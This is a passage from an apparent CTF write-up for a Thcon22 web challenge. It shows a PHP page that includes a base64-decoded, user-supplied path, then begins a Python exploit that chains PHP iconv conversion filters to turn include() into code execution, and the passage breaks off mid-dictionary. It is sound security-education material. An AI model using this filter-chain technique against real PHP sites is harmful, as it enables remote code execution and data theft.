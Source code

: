 ```php
				<ul class="nav">
	<?php
	createHeaders(array('change_profile' => 'Edit', 'view_profile' => 'View'), $safe_handler);
	?>
			</ul>
		</div>
	</div>
	<div class="blank_space"></div>

	<?php
	if(isset($_GET['page']) && !empty($_GET['page']) && isset($_GET['pHash']) && !empty($_GET['pHash']))
	{
		$page = $_GET['page'];
		$hash = $_GET['pHash'];
		if($safe_handler->handle($page, $hash))
		{
			include(base64_decode($page) . '.php');
		}
		else
		{
			echo "<h2>Integrity verification failed...</h2>";
		}
	}
	else{
	?>
	<h1>Welcome to the profile editor !</h1>
	<p>Here you can create and edit your profile.<br> A card will be created for your Thcon22 participation.<br> We hope you will like the rendering !</p>
	<?php
	}
	?>
</body>
</html>
```

Now we know for certain how files are loaded - `include(base64_decode($page) . '.php')`. We need to find a way to load `/flag.txt` even though `.php` is always appended.

## Getting the Flag

When I participated in hxp CTF 2021 we faced [a similar problem](https://lewin.co.il/winning-the-impossible-race-an-unintended-solution-for-includers-revenge-counter-hxp-2021/), and I remember [`loknop` developed a creative solution](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d) using only [PHP conversion filters](https://www.php.net/manual/en/filters.convert.php) passed to `include()` to achieve **RCE** (which is much more than what we need here - reading file content, but will work!). I wrote the below solution to adapt the method to this challenge:

```python
import base64
import hashlib
import requests

# Based on https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d (until line 52):
conversions = {
    'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    '8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
```